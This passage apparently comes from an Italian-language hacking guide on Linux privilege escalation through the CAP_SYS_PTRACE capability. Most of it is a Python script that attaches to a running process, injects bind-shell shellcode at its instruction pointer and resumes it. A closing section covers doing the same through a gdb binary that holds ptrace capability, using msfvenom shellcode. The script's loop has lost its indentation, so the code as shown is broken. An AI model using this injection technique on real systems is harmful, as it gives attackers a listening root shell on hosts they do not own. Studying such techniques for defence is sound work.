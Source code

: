 ```python
libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
# Convert the byte to little endian.
shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
shellcode_byte=int(shellcode_byte_little_endian,16)

# Inject the byte.
libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
**Esempio con binario (gdb)**

`gdb` con la capacità `ptrace`:
```
/usr/bin/gdb = cap_sys_ptrace+ep
```
Creare uno shellcode con msfvenom per l'iniezione in memoria tramite gdb

